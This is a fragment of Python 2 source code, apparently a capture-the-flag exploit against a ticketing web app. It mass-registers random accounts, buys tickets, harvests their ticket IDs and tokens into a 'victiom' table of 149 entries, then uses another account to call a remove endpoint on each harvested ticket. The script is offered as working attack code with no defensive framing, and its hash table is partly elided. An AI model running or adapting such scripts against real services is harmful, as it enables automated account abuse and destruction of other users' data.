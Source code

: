 ```python
 5: '395b9fb4fb0f3cf42a727d43536be457',
 ···
 ···
 147: '4cc522f84f11189d9737ab18fc22fcd0',
 148: '8f2675372aa0f2ecfee1aeeee3d814cd',
 149: '7544b9ee45ae6ae7066305d472077638'}

def register_login_get_ticket():
  global victiom 
  global session
  while True:
      username = random.sample(string.letters, 19)    
      username1 = ''.join(username)
      register1 = url_seg['register'].format(str(username1))
      reg_url = url + register1
      print reg_url
      res = session.get(reg_url).content
      if '\u7528\u6237\u6ce8\u518c\u6210\u529f' in res:
          log_url = url + url_seg['login'].format(username1)
          session.get(log_url)
          buy_url = url + url_seg['buy']
          res = session.get(buy_url).content
          bill_url = url + url_seg['bill']
          html = session.get(bill_url)
          jsonn = json.loads(html.text)
          bill_id = jsonn['data'][0]['bill_id']
          pay_url = url + url_seg['pay'].format(bill_id)
          session.get(pay_url)
          sear_url = url + url_seg['search_ticket']
          html = session.get(sear_url)
          res = html.content
          josnn = json.loads(html.text)
          id = josnn['data'][0]['id']
          # 这个地方有点奇怪，josn解析不出ticket所以采用正则匹配的方式
          ticket = re.search("ticket\":\"(.*?)\"", res).group(1)
          victiom[id] = ticket
          print victiom
          if len(victiom) == 149:
              break


def delete_other():
  session = requests.session()
  regiter1  = url_seg['register'].format('ch5ser_cqw_cq')
  reg_url = url + regiter1
  res = session.get(reg_url).content
  if '\u7528\u6237\u6ce8\u518c\u6210\u529f' in res:
          log_url = url + url_seg['login'].format('ch5ser_cqw_cq')
          session.get(log_url)
          buy_url = url + url_seg['buy']
          res = session.get(buy_url).content
          bill_url = url + url_seg['bill']
          html = session.get(bill_url)
          jsonn = json.loads(html.text)
          bill_id = jsonn['data'][0]['bill_id']
          pay_url = url + url_seg['pay'].format(bill_id)
          session.get(pay_url)
          sear_url = url + url_seg['search_ticket']
          html = session.get(sear_url)
          for key, value in victiom.items():    
              remove = url_seg['remove'].format(str(key), value)
              rem_url = url + remove
              print session.get(rem_url).content
```